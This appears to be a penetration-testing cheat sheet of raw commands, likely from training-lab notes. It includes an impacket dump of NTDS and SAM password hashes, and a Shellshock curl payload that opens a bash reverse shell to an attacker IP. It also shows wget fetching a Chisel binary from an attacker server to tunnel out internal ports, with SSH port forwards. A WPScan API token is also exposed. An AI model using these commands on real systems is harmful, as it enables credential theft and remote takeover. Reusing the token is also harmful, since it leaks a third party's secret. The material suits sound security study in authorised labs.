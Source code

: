 Dump Secrets Such as SYSTEM and ntds.dit:

```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM -sam SAM LOCAL
```
192.168.49.140
Discovery:

```bash
sudo nmap $ip -p- -T5 --open
ports=$(nmap -p- --min-rate 1000 "$target" | grep "^ *[0-9]" | grep "open" | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//')
sudo autorecon $ip --ports="$ports" --wpscan.api-token KvAyO8bM4TYYDwJJMNhoU95g591rdNvk3jiKpQHG5uY --subdomain-enum.domain hack.htb --global.domain hack.htb
```

Shellshock:

```bash
nikto -ask=no -h http://10.11.1.71:80 2>&1
OSVDB-112004: /cgi-bin/admin.cgi: Site appears vulnerable to the 'shellshock' vulnerability

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.119.183/9001 0>&1'" \
http://10.11.1.71:80/cgi-bin/admin.cgi
```

Local port forward:

```bash
https://notes.benheater.com/books/network-pivoting/page/port-forwarding-with-chisel
ssh -i id_ecdsa userE@192.168.138.246 -p 2222 -L 8000:localhost:8000 -N
# On the box running on port 80, want it to be on my machine
ssh -f -N -L 127.0.0.1:8080:127.0.0.1:80 ariah@192.168.239.99
ssh -N -L <your machine>:<your port>:<where \'s running on their machine>:<... port> user@$ip
ssh -N -L 127.0.0.1:8444:127.0.0.1:8443 nadine@$ip
```

Access remote localhost with Chisel:

```bash
# Remote machine has internal program running on 8080
chisel server -p 5000 --reverse
cd /opt/linux
python -m http.server 80

wget 192.168.45.178:8000/chisel
chmod 777 chisel
./chisel client 192.168.45.221:5000 R:4444:localhost:8080

wget 10.10.14.11:8000/chisel
chmod 777 chisel
./chisel client 10.10.14.11:5000 R:8000:127.0.0.1:8000

# Now i can access it on local machine port 4444
```
